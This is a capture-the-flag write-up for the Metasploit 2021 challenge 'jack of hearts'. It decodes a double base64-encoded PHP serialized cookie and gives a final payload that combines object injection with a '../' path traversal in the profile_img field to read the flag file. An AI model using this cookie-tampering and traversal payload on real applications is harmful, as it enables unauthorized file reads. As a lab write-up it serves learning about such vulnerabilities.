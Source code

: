 ```yaml
---
layout: load_md
title: The White Circle | Metasploit 2021 | jack of hearts Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Metasploit 2021
parent: metasploit_2021
category: jack_of_hearts
challenge: jack of hearts
tags: "web, twh, php object injection"
---
```


<h1 class="heading card-title white-text">Metasploit 2021</h1>
## jack of hearts

> Solved By : thewhiteh4t

```
Port : 20022
```

- User cookie is double base64 encoded, so we double decoded and ended up with the following :

```
O:4:"user":3:{
    s:8:"username";s:4:"user";
    s:5:"admin";b:0;
    s:11:"profile_img";s:23:"/var/www/html/guest.png";
}
```

```
O   -> Object
O:4 -> Object of length 4
:3: -> Object has 3 attributes
s   -> String data type
s:8 -> String of length 8
b   -> Boolean data type
b:0 -> False
```

- This was a **PHP Object Injection** challenge
- The goal of this challenge was not to become admin and if we try then the server sends hints or funny responses
- Directly accessing the flag did not work so we can simply use `../`
- Final payload :

```
O:4:"user":3:{
    s:8:"username";s:4:"user";
    s:5:"admin";b:0;
    s:11:"profile_img";s:40:"/var/www/html/../../../../../../flag.png";
}
```

![](https://i.imgur.com/JGNO34j.png)